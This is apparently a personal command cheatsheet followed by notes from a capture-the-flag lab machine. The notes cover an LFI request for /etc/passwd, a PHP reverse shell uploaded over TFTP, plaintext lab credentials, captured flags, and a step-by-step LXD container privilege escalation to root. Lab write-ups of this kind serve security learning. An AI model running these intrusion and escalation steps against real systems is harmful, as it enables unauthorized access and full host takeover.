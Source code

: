 
### Linux Version
```
# The following commands can all find os name and version in Linux:
cat /etc/os-release
lsb_release -a
hostnamectl

# Find Linux kernel version
uname -r 
```
`usermod -aG sudo <USERNAME>  # add <USERNAME> to the sudoers group` 


Create a webserver with node
`npx http-server -p 9999`


Disable the CSS by pasting the following into the dev tools console
`var el = document.querySelectorAll('style,link'); for (var i=0; i<el.length; i++) {el[i].parentNode.removeChild(el[i]);};`


`brew install mitmproxy`
`pip3 install mitmproxy2swagger # Plugin to scrape an api of all its endpoints`


CMD: `zip -r <FILETOEXTRACT> $(find /opt/ibm/isim/ -name "*.jar")`


`grep MemTotal /proc/meminfo` - Get the total ram/Memory of the system


`for i in $(compgen -a); do alias $i ; done` # List all the aliases and the see what commmands they actually do



`find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null` # List of all SUID and SGID Executables - from : https://atom.hackstreetboys.ph/linux-privilege-escalation-suid-sgid-executables/



`watch -n 60 "date && free -h"` # Run two commands in watch at the same time every 60 seconds


### Regexes for vs code

`password(.*)"(.*)"`# find the term "password" followed by anything and then a pair of quotations marks with text within them
`auth(.*)"(.*)"`# find the term "auth" followed by anything and then a pair of quotations marks with text within them


`detect-secrets -C . scan > .secrets.basline` # Run detect secrts and make a basline file for the repo
`detect-secrets audit .secrets.baseline`

`trufflehog --regex <FULLPATHTOCODE>`



### Cheatsheet

`alias chee='callCheatSh(){ curl cheat.sh/"$@" ;}; callCheatSh'`


TMP




LFI - http://10.129.95.185/?file=/etc/passwd

gobuster dir -u http://10.129.95.185 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
nikto -C all -h 10.129.95.185

tftp 10.129.95.185:69 -c id

Trivial File Transfer Protocol (TFTP) is a simple protocol that provides basic file transfer function with no user authentication. TFTP is intended for applications that do not need the sophisticated interactions that File Transfer Protocol (FTP) provides.  It is also revealed that TFTP uses the User Datagram Protocol (UDP) to communicate. This is defined as a lightweight data transport protocol that works on top of IP.


UDP - UDP provides a mechanism to detect corrupt data in packets, but it does not attempt to solve other problems that arise with packets, such as lost or out of order packets.
It is implemented in the transport layer of the OSI Model, known as a fast but not reliable protocol, unlike TCP, which is reliable, but slower then UDP.
Just like how TCP contains open ports for protocols such as HTTP, FTP, SSH and etcetera, the same way UDP has ports for protocols that work for UDP.


RevShell from - http://10.129.29.207/?file=/var/lib/tftpboot/shell.php


web-related files are usually stored in the `/var/www/html` folder,


CREDS: mike:Sheffield19

mike:Sheffield19
www-data@included:/var/www/html$ su mike
su mike
Password: Sheffield19

mike@included:/var/www/html$ cat /home/mike/user.txt
cat /home/mike/user.txt
a56ef91d70cfbf2cdb8f454c006935a1
mike@included:/var/www/html$ 


mike@included:/var/www/html$ cat .htaccess
cat .htaccess
RewriteEngine On
RewriteCond %{THE_REQUEST} ^GET.*index\.php [NC]
RewriteRule (.*?)index\.php/*(.*) /$1$2 [R=301,NE,L]
#<Files index.php>
#AuthType Basic
#AuthUserFile /var/www/html/.htpasswd
#Require valid-user


LXD - LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to
match the permissions of the calling user to the function it is asked to perform.


To REad - https://www.hackingarticles.in/lxd-privilege-escalation/

Linux Container (LXC) are often considered as a lightweight virtualization technology that is something in the middle between a chroot and a completely developed virtual machine, which creates an environment as close as possible to a Linux installation but without the need for a separate kernel.

Linux daemon (LXD) is the lightervisor, or lightweight container hypervisor. LXD is building on top of a container technology called LXC which was used by Docker before. It uses the stable LXC API to do all the container management behind the scene, adding the REST API on top and providing a much simpler, more consistent user experience.

CMD: apt install lxd
CMD: apt install zfsutils-linux
CMD: usermod --append --groups lxd Bob
CMD: lxd init
CMD: lxc launch ubuntu:18.04
CMD: lxc list

LXD PRivesc
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine


lxc init myimageNasty ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id

/mnt/root # cat root/root.txt
cat root/root.txt
c693d9c7499d9f572ee375d4c14c7bcf
/mnt/root # ^[[41;13R

